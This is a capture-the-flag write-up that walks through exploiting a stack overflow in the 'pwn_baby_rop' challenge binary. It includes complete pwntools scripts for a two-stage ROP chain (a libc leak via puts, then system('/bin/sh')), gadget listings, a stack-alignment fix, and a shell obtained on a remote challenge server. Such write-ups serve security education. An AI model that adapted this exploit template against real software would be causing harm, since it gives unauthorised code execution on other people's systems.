




## Introduction
Since the [last article](/rop-with-one-gadget/) was written with the sole purpose of using one_gadget, it didn't present the most straight-forward solution for the baby_rop challenge. In this article, I'm going to present the easiest solution that I know of, mainly because I would like to have a template for the next baby ROP challenge I encounter.

## Mission Briefing

Just to recap, the challenge can be found on [CyberEDU](https://cyberedu.ro/). The executable has NX enabled, but there's no stack canary and PIE is disabled.

## Finding RIP's Offset

We already know the app is going to crash if we input a string that is 1024 characters long. The following script will send a cyclic pattern that will help us get RIP's offset:


from pwn import *

io = process("./pwn_baby_rop")

io.recvuntil("black magic.\n")

gdb.attach(io)

payload = b""
payload += cyclic(1024, n=8).encode()

io.sendline(payload)
io.interactive()


As expected, RIP is overwritten and the application crashes. Finding the register's offset is one function call away:


>>> from pwn import *
>>> cyclic_find(0x6261616161616169, n=8)
264
>>>


A simple PoC to crash the application and overwrite RIP with 'C's can be found below:


from pwn import *

io = process("./pwn_baby_rop")

io.recvuntil("black magic.\n")

gdb.attach(io)

payload = b""
payload += b"A" * 256
payload += b"B" * 8
payload += b"C" * 8

io.sendline(payload)
io.interactive()


The reason I also included those 8 'B's before the 'C's is to highlight what that string overwrites:

The 'B's can be found in the RBP register. I somehow managed to forget that when I solved the challenge yesterday and modified RBP by finding a 'pop rbp ; ret' gadget. After `someone` pointed that out, I quickly edited the post to modify RBP by using this technique.

## Leaking a LIBC Address

The first ROP chain was also covered in the first article. To recap, we are first going to call puts with puts@got as an argument and then call main again. The first thing that needs to be found is a 'pop rdi ; ret' gadget (call convention: function arguments are stored in RDI, RSI, RDX, RCX, R8, R9, etc.). I did that using [rp++](https://github.com/0vercl0k/rp):


$ rp-lin-x64 -f pwn_baby_rop -r 1 --unique | grep 'pop rdi ; '
0x00401663: pop rdi ; ret  ;  (1 found)
$ 


The next addresses we need to find are puts@plt (wich we are going to call) and puts@got (which contains the address of puts in libc). In this case, using objdump and grep will do the trick:


$ objdump -S pwn_baby_rop | grep -A 4 "<puts@plt>"
0000000000401060 <puts@plt>:
  401060:	f3 0f 1e fa          	endbr64 
  401064:	f2 ff 25 ad 2f 00 00 	bnd jmpq *0x2fad(%rip)        # 404018 <setvbuf@plt+0x2f98>
  40106b:	0f 1f 44 00 00       	nopl   0x0(%rax,%rax,1)

--
  4015de:	e8 7d fa ff ff       	callq  401060 <puts@plt>
  4015e3:	b8 00 00 00 00       	mov    $0x0,%eax
  4015e8:	e8 89 fb ff ff       	callq  401176 <setvbuf@plt+0xf6>
  4015ed:	b8 00 00 00 00       	mov    $0x0,%eax
  4015f2:	c9                   	leaveq 
$


The main function is located at 0x40145C. The binary is stripped, so I had to open IDA in order to find it. If the binary was not stripped, 'objdump -S pwn_baby_rop \| grep main' whould have been sufficient to find the function's address. The 1st stage exploit code looks like this:


# 1st stage
pop_rdi = 0x00401663
puts_got = 0x404018
puts = 0x401060
main = 0x40145C

payload = b""
payload += b"A" * 256
payload += b"B" * 8
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts)
payload += p64(main)

io.sendline(payload)
puts_addr = io.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info("puts: " + hex(puts_addr))


## Finding the Server's LIBC Version

There's a >99% chance that the server is using another version of LIBC than my computer is. As I mentioned in the last article, this version can be found by running the 1st stage on the remote machine and searching the last 3 nibbles of puts' address(in this case, 5a0) on [this site](https://libc.nullbyte.cat/?q=_IO_puts%3A5a0). After downloading the .so file, we can tell the program to load it instead of our system's by changing


io = process("./pwn_baby_rop")


to


env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu8_amd64.so"}
io = process("./pwn_baby_rop", env=env)


To test wether this worked or not, I ran the script again:


$ python libc.py 
[+] Starting program './pwn_baby_rop': Done
puts:  0x7f4ea0c875a0
[*] Switching to interactive mode
Solve this challenge to prove your understanding to black magic.
$ 
[*] Interrupted
[*] Stopped program './pwn_baby_rop'


The address of puts ends in 5a0 now, so we can move on to the last step.

## RCE? Nope.

The simples method to get RCE now is to call system("/bin/sh"). The first thing we need to do is calculate LIBC's base address. The site I linked above also provides the offsets of some helpful functions. According to that list, puts is located at 0x0875a0, system at 0x055410 and a "/bin/sh" string at 0x1b75aa:

Another problem I wrote about is that system() is going to try to write some data to the stack by using the RBP register. We can find a memory adrees that is both readable and writeable by using gdb's vmmap command:


gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00401000         0x00402000         r-xp	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00402000         0x00403000         r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00403000         0x00404000         r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00404000         0x00405000         rw-p	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00007f602c4a3000 0x00007f602c4ca000 r-xp	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007f602c4d4000 0x00007f602c4d6000 rw-p	mapped
0x00007f602c4d6000 0x00007f602c4fb000 r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu8_amd64.so
0x00007f602c4fb000 0x00007f602c673000 r-xp	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu8_amd64.so
0x00007f602c673000 0x00007f602c6bd000 r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu8_amd64.so
0x00007f602c6bd000 0x00007f602c6be000 ---p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu8_amd64.so
0x00007f602c6be000 0x00007f602c6c1000 r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu8_amd64.so
0x00007f602c6c1000 0x00007f602c6c4000 rw-p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu8_amd64.so
0x00007f602c6c4000 0x00007f602c6ca000 rw-p	mapped
0x00007f602c6ca000 0x00007f602c6cb000 r--p	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007f602c6cb000 0x00007f602c6cc000 rw-p	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007f602c6cc000 0x00007f602c6cd000 rw-p	mapped
0x00007ffc12bf8000 0x00007ffc12c19000 rw-p	[stack]
0x00007ffc12d65000 0x00007ffc12d68000 r--p	[vvar]
0x00007ffc12d68000 0x00007ffc12d6a000 r-xp	[vdso]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
gdb-peda$


Memory block 0x00404000-0x00405000 is a prefect candidate, so I will use 0x00404500 for RBP. The code for the second stage looks like this:


# 2nd stage
puts_offset = 0x0875a0
system_offset = 0x055410
bin_sh_offset =  0x1b75aa

libc_base = puts_addr - puts_offset
system = libc_base + system_offset
bin_sh = libc_base + bin_sh_offset
log.info("libc_base: " + hex(libc_base))
log.info("system: " + hex(system))
log.info("bin_sh: " + hex(bin_sh))

rbp = 0x00404500

payload = b"A" * 256
payload += p64(rbp)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)

io.sendline(payload)


However, the exploit seems to crash the program:


$ python exploit_notworking.py 
[+] Starting program './pwn_baby_rop': Done
[*] puts: 0x7f1764d615a0
[*] libc_base: 0x7f1764cda000
[*] system: 0x7f1764d2f410
[*] bin_sh: 0x7f1764e915aa
[*] Switching to interactive mode
Solve this challenge to prove your understanding to black magic.
[*] Got EOF while reading in interactive
$ id
[*] Program './pwn_baby_rop' stopped with exit code -11
[*] Got EOF while sending in interactive
Traceback (most recent call last):
  File "/usr/local/lib/python3.6/dist-packages/pwnlib/tubes/process.py", line 611, in close
    fd.close()
BrokenPipeError: [Errno 32] Broken pipe


## Aligning the Stack

After attaching gb to the process, we can see the instrucion that crashed the program:

[This StackOverflow thread](https://stackoverflow.com/questions/54393105/libcs-system-when-the-stack-pointer-is-not-16-padded-causes-segmentation-faul) does a good job at explaining the cause of this problem. Basically, LIBC expects the stack to be 16-bit aligned when a function is called and uses this property to optimize some portions of its code. The solution is very simple: call a ret instruction. We can find a ret gadget in the main program using rp++:


$ rp-lin-x64 -f pwn_baby_rop -r 1 --unique | grep ret
0x004015f1: add cl, cl ; ret  ;  (1 found)
0x00401017: add esp, 0x08 ; ret  ;  (2 found)
0x00401016: add rsp, 0x08 ; ret  ;  (2 found)
0x004010c3: cli  ; ret  ;  (2 found)
0x0040164c: fisttp word [rax-0x7D] ; ret  ;  (1 found)
0x004010c0: hint_nop edx ; ret  ;  (4 found)
0x0040145a: leave  ; ret  ;  (2 found)
0x004010ee: nop  ; ret  ;  (3 found)
0x00401662: pop r15 ; ret  ;  (1 found)
0x0040115d: pop rbp ; ret  ;  (1 found)
0x00401663: pop rdi ; ret  ;  (1 found)
0x0040101a: ret  ;  (12 found)


The final script looks like this:


from pwn import *

env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu8_amd64.so"}
#io = process("./pwn_baby_rop", env=env)
io = remote("34.89.143.158", 31042)

io.recvuntil("black magic.\n")

#gdb.attach(io)

# 1st stage
pop_rdi = 0x00401663
puts_got = 0x404018
puts = 0x401060
main = 0x40145C

payload = b""
payload += b"A" * 256
payload += b"B" * 8
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts)
payload += p64(main)

io.sendline(payload)
puts_addr = io.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info("puts: " + hex(puts_addr))

# 2nd stage
puts_offset = 0x0875a0
system_offset = 0x055410
bin_sh_offset =  0x1b75aa

libc_base = puts_addr - puts_offset
system = libc_base + system_offset
bin_sh = libc_base + bin_sh_offset
log.info("libc_base: " + hex(libc_base))
log.info("system: " + hex(system))
log.info("bin_sh: " + hex(bin_sh))

rbp = 0x00404500
simple_ret = 0x0040101a

payload = b"A" * 256
payload += p64(rbp)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(simple_ret)
payload += p64(system)

io.sendline(payload)
io.interactive()


Running it against the remote server will result in a shell:


$ python exploit.py 
[+] Opening connection to 34.89.143.158 on port 31042: Done
[*] puts: 0x7f50d3c2a5a0
[*] libc_base: 0x7f50d3ba3000
[*] system: 0x7f50d3bf8410
[*] bin_sh: 0x7f50d3d5a5aa
[*] Switching to interactive mode
Solve this challenge to prove your understanding to black magic.
$ id
uid=1000(ecsc) gid=3000 groups=3000,2000
$ ls -l
total 20
-rwxr-xr-x 1 root root    70 May 13 09:37 flag
-rwxr-xr-x 1 root root 14520 May 13 09:37 pwn
$ cat flag
[REDACTED]


## The End
That wasn't *very* hard, was it? I hope you've learned something new from this article (I certainly have!). The python scripts I used can be found [in this repo](https://github.com/Yakuhito/simple-rop/tree/master).

Until next time, hack the world.

yakuhito, over.